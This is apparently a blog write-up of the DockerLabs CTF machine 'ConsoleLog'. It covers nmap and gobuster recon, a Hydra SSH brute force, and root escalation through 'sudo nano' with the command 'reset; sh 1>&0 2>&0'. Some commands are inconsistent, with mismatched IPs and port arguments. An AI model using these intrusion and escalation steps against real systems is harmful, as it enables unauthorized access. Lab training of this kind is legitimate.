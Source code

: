 ```yaml
---
title: ConsoleLog Writeup - DockerLabs
date: 2024-08-09
categories:
    - Writeups
    - DockerLabs
tags:
    - Linux
    - DockerLabs
    - CTF
    - Easy
img_path: /assets/img/commons/consolelog/
image: consolelog.png
---
```


Hello!

In this write-up, we will dive into the **DockerLabs** machine [ConsoleLog](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to).

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active:

```bash
ping -c 1 172.17.0.2
```


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 172.18.0.2 -oG allPorts
```

The only open ports that we see are 80 (HTTP server), 3000 (API) and 5000 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 172.18.0.2 -oN targeted -oX targetedXML
```

![nmap](nmap.png)


## Exploitation
---
We see a button and the machine's name give us a clue, let's try to click the button and see what's the output of the console (there is a `console.log`)

We see a message: "Para opciones de depuración, el token de /recurso/ es tokentraviesito"

We can't see much more information so let's try to find hidden directories:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster-report](gobuster.png)

We find the endpoint `/backend`. If we open it, we can see the following website:

![backend](endpoint_backend.png)

We can see a file named `server.js` let's see what it contains:

![server-js](server-js.png)

We have found a password, let's try to use Hydra to get into the SSH server:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xat-net-10-million-usernames.txt -P lapas******todas ssh://172.17.0.2:5000 -s 22 -t 64
```

We can see now that the user is lovely, and we can access via SSH with his credentials:

```bash
ssh lovely@172.17.0.2 -p 5000
```

<br>

## Privilege escalation
---

First, we should export the xterm to easily work with the SSH terminal. We can do this just by executing the following:
```bash
export TERM=xterm
```

Now, as the user Lovely, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](sudo-l.png)

We find that we can execute the `nano` tool as sudo.

We can access `nano` and obtain a shell by executing the following:

```bash
sudo nano
```

Once we are inside nano, we are going to type `CTRL+R` and then `CTRL+X`, we can now see that we can execute commands.

At this point, we are going to execute:

```bash
reset; sh 1>&0 2>&0
```

![privesc1](nano_privesc.png)

And now, we have access to a root priveleged terminal.

![root-sh](root-sh.png)

We can execute the following to get a full functional shell:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![sudo_access](privilege2.png)

Now we have gained superuser access and we have the whole system committed.


> H4Ppy H4ck1ng!
